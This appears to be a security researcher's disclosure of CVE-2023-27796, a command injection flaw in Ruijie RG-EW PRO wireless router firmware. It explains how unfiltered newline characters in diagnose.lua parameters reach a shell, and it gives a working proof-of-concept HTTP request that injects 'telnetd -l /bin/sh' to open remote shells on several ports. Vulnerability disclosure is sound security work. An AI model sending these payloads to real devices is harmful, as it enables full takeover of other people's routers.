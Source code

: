 # CVE-ID

[CVE-2023-27796](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-27796 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-27796")

# Information

**Vendor of the products:**    Ruijie Networks

**Vendor's website:**    [https://www.ruijienetworks.com](https://www.ruijienetworks.com "https://www.ruijienetworks.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**

RG-EW1200G PRO Wireless Routers

RG-EW1800GX PRO Wireless Routers

RG-EW3200GX PRO Wireless Routers

**Affected firmware version:**

EW_3.0(1)B11P204 (the latest release version)

**Firmware download address:**   

[RG-EW1200G PRO Wireless Routers](https://www.ruijienetworks.com/support/documents/slide_77453 "https://www.ruijienetworks.com/support/documents/slide_77453")

[RG-EW1800GX PRO Wireless Routers](https://www.ruijienetworks.com/support/documents/slide_77455 "https://www.ruijienetworks.com/support/documents/slide_77455")

[RG-EW3200GX PRO Wireless Routers](https://www.ruijienetworks.com/support/documents/slide_77457 "https://www.ruijienetworks.com/support/documents/slide_77457")

# Overview

`Ruijie Networks RG-EW PRO Series Wireless Routers EW_3.0(1)B11P204` was discovered to contain a `command injection vulnerability` via the `data.ip`, `data.protocal`, `data.iface` and `data.package` parameters in the `runPackDiagnose` function of `diagnose.lua`. Successful exploit could allow an authorized attacker to execute arbitrary commands on remote devices.

# Vulnerability details

**The vulnerability was detected in the file `/usr/lib/lua/luci/modules/diagnose.lua`.**

It is easy to see that all four fields `data.ip`, `data.protocal`, `data.iface` and `data.package` will eventually be concatenated into the `_shell` variable by the `%s` formatting string and executed as arguments to the `doShell` function.

![](./pic/3.png)

In the file `/usr/lib/lua/luci/utils/tool.lua`. Notice that in the `doShell` function, some dangerous characters are filtered before the command is executed. However, **the command delimiter `\n` is not filtered**.

![](./pic/4.png)

Therefore, we can use `\n` as the command separator, inject malicious commands into the `data.ip`, `data.protocal`, `data.iface` and `data.package` fields, and execute them (In `JSON` data, `\n` will be converted to the `Unicode` encode `\u000a`, so it's also okay to use `\u000a` as the separator).

# Poc

Send the following request message. 

```
POST /cgi-bin/luci/api/diagnose?auth=xxx HTTP/1.1
Host: 192.168.110.1
Content-Length: 218
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-type: application/json
Accept: */*
Origin: http://192.168.110.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: __APP_LANG__=zh_cn
Connection: close

{"method":"runPackDiagnose","params":{"ip":"\ntelnetd -l /bin/sh -p 1111\n","protocal":"\ntelnetd -l /bin/sh -p 2222\n","iface":"\ntelnetd -l /bin/sh -p 3333\n","package":"\ntelnetd -l /bin/sh -p 4444\n","size":"666"}}
```

# Attack Demo

Use `BurpSuite` to send the above `POC`.

![](./pic/1.png)

Then, the attacker can log in to the remote device directly through `telnet` and control it entirely (remote login through port `2222`, `3333` or `4444` is also available).

![](./pic/2.png)
